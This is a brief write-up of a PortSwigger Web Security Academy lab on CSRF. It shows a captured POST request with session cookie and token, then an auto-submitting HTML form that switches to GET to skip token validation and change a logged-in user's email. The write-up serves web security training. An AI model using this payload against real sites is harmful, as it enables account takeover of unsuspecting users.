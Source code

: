 # Lab: CSRF where Token Validation Depends on Request Method

This is a valid POST request initiated by a logged-in user:

```http
POST /my-account/change-email HTTP/2
Host: 0a650063048614538281bf5700590043.web-security-academy.net
Cookie: session=Fr0dAU3G4s5ixvxQ8mn1Uvl67F21hjAD
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650063048614538281bf5700590043.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://0a650063048614538281bf5700590043.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=a%40a.a&csrf=hN3CPjmJwe9hZzbKBltxaO33SUqAWpZf
```

This target validates the CSRF token when the request is via POST, but not for GET requests.

This exploit changes the request type (via `method=`) and omits the CSRF token entirely:

```html
<form action="https://0a650063048614538281bf5700590043.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="x@x.x" />
  <input type="submit" value="Submit request" />
</form>
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```

Reference: <https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method>